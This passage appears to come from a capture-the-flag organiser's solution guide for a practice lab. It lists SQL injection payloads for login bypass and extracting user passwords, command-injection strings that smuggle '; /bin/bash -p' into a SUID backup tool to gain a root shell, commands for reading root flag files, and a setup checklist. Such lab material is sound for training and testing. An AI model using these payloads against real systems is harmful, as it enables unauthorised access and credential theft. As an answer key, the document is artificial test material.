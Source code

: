 
## Alternative Exploitation Methods

### SQL Injection Variations
```sql
-- In username field:
' OR '1'='1'--
admin'--
' OR 1=1--
' UNION SELECT NULL,NULL,NULL,NULL--

-- Extracting data:
' UNION SELECT username,password,NULL,NULL FROM users--
```

### Privilege Escalation Variations
```bash
# Note: flag4.txt contains a hint, not the real flag!
# The real flag is in /root/.flag4.txt (hidden file)

# Getting a shell (multiple methods):
backup_tool "; /bin/bash -p"      # Recommended - preserves privileges
backup_tool "; sh -p"              # Also works
backup_tool "; bash -p"            # Alternative
backup_tool "x; bash -p"           # Doesn't matter what's before ;

# Once you have a root shell:
ls -la /root/                      # Find hidden files
cat /root/.flag4.txt               # Read the real flag
python3 /root/decrypt_tool.py      # Get FLAG 5
```

---

## Testing Checklist for Organizers

- [ ] Web interface loads on port 5000
- [ ] SSH service responds on port 2222
- [ ] SQL injection works on login
- [ ] Admin access grants access to logs
- [ ] Flag 2 visible in logs
- [ ] Config.bak file visible to admin users
- [ ] SSH credentials work
- [ ] Welcome message displays on SSH login
- [ ] backup_tool binary has SUID bit
- [ ] Command injection works in backup_tool
- [ ] Root access achievable
- [ ] Flag 4 readable as root
- [ ] Decrypt tool works
- [ ] Final flag displays correctly

---